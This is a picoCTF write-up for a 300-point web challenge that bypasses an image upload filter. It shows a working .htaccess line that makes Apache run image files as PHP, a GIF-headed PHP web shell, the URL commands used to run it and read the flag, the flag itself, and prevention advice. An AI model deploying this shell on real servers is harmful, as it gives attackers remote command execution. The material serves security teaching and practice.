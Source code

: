 # byp4ss3d - File Upload Bypass

**Challenge**: byp4ss3d (300 points)  
**Category**: Web Exploitation  
**Author**: Yahaya Meddy

## Challenge Description
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? The hint reveals that "Apache can be tricked into executing non-PHP files as PHP with a .htaccess file."

![first](./img/first.png)

## Solution

### Understanding the Vulnerability
The web application allows file uploads with basic image extension checks (.jpg, .png, .gif). However, the server uses Apache, which can be configured via `.htaccess` files to treat specific file types as PHP executables.

### Attack Strategy
The key insight is that we need to upload two files:
1. A malicious [.htaccess](./htaccess.md) file that configures Apache to execute image files as PHP
2. A PHP web shell disguised with an image extension

### Creating the Exploit Files

**File 1: `.htaccess`**
```bash
AddType application/x-httpd-php .jpg .jpeg .png .gif
```
This directive tells Apache to process files with image extensions as PHP scripts.

**File 2: `shell.jpg`**
```php
GIF89a;  // This is a GIF file header/magic number It makes the file appear as a valid GIF image to basic file type checks
<?php 
if(isset($_GET['cmd'])) {     // Checks if a URL parameter called cmd exists $_GET['cmd'] accesses URL parameters (e.g., ?cmd=whoami) isset() returns true if the parameter is provided
    system($_GET['cmd']);  // system() is a PHP function that runs shell commands
} else {
    echo "Shell is working!";  // Default command that runs if no cmd parameter is provided
    system('ls -la');
}
?>
```
The `GIF89a;` header helps bypass any basic file content checks, while the PHP code provides command execution capability.

![troj](./img/troj.png)


### Uploading the Files
1. Accessed the upload portal at the provided URL
2. First uploaded the `.htaccess` file
3. Then uploaded the `shell.jpg` file
4. Both files were successfully uploaded to the `/images/` directory

![else](./img/else.png)


### Step 5: Executing Commands
After successful uploads, accessed the web shell:
```
http://[instance-url]/images/shell.jpg?cmd=id
```

![id](./img/id.png)

Verified the shell was working by listing directory contents, which showed both our uploaded files present.

### Finding the Flag
Used the shell to search for the flag file:
```
http://[instance-url]/images/shell.jpg?cmd=find / -name "*flag*" 2>/dev/null
```

![flag.txt](./img/flag_txt.png)


Located the flag at `/var/www/flag.txt` and retrieved it:
```
http://[instance-url]/images/shell.jpg?cmd=cat /var/www/flag.txt
```

![flag](./img/flag.png)


## Flag
`picoCTF{s3rv3r_byp4ss_4961368b}`

## Prevention
To prevent this vulnerability:
1. Store uploaded files outside the web root
2. Disable `.htaccess` overrides in Apache configuration
3. Implement proper file type verification using MIME types, not just extensions
4. Use a whitelist approach for allowed file types
5. Scan uploaded files for malicious content
6. Set proper permissions on uploaded directories


you can learn more about `.htaccess` from [here](https://httpd.apache.org/docs/current/howto/htaccess.html)